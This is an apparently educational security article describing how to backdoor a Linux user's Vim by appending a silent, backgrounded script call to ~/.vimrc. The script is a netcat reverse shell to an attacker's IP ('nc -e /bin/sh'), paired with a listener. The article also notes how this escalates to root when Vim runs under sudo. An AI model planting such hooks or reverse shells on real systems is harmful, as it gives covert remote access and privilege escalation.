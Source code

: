 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a well-known and widely used command-line text editor that comes pre-installed on most Unix and Linux operating systems. In many Linux setups, user-specific VIM configuration settings are stored in the user's home directory within the `.vimrc` file. This file, which is automatically loaded when Vim starts, accepts VIM-specific scripting commands that are usually used to enable users to tailor their editing environment to their preferences.

This interesting setup presents an opportunity for attackers. By manipulating the `.vimrc` file, one can execute unintended actions during a user's VIM session without the user's knowledge or permission, especially if VIM operates within an unrestricted environment.

To get a feel for that, let's experiment. To execute a command within the VIM environment, you need to precede any shell command with a colon and an exclamation mark. Execute the following command within VIM to get the user ID (or username):

```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

You see, once you hit enter, the user ID is printed on the screen. This is because VIM has access to the shell environment's variables.

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Great, let's get back to the `.vimrc` file. We can inject any commands into the `.vimrc` file, and once the current user starts Vim, these commands are executed in the background. One particularly interesting command is the source command, used to execute commands from a script file in the current shell session.

We can illustrate this with an example scenario: suppose an attacker, using a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker wants to establish a backdoor on the victim machine, such as creating a netcat reverse shell connection to the attacker's machine.

First, on the victim machine, the attacker creates or modifies the `.vimrc` file by appending the following line:

```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```

Let's analyze this command: Firstly, the `:silent` suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the `source` command, preceded by an exclamation mark to indicate that this is a shell command, loads and executes the script ncReverseSh.sh, followed by the `&` to execute the command in the background."

Now, the attacker need to populate the script `ncReverseSh.sh` with the payload:

```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This is a simple script that invokes the nc command with the `-e` switch, specifying the program (`/bin/sh`) to execute upon connection establishment, followed by the attacker's IP and listening port. Again, the & ensures the command runs in the background

Okay, let's give it a shot. Start a netcat listener on the attacker machine on port 7777:

```sh
nc -lnvp 7777
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

You should know that the reverse shell obtained doesn't necessarily grant access beyond that of the current user. However, if the victim runs VIM with sudo, the attacker might get a root shell. However, this is only half the story; it depends on the Linux distribution. For example, in systems like Ubuntu and Red Hat, VIM uses the current user's `.vimrc` configuration file even within a sudo context. Therefore, if the user invokes VIM via sudo, our sourced script will execute as root. On the other hand, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, without using the current user's settings.

One more thing: another idea is to check the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:

```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

In this example, the configuration allows the root user to execute `/usr/bin/vim` on `/opt/whatever.conf` without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning...
Mahmoud Jadaan

### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
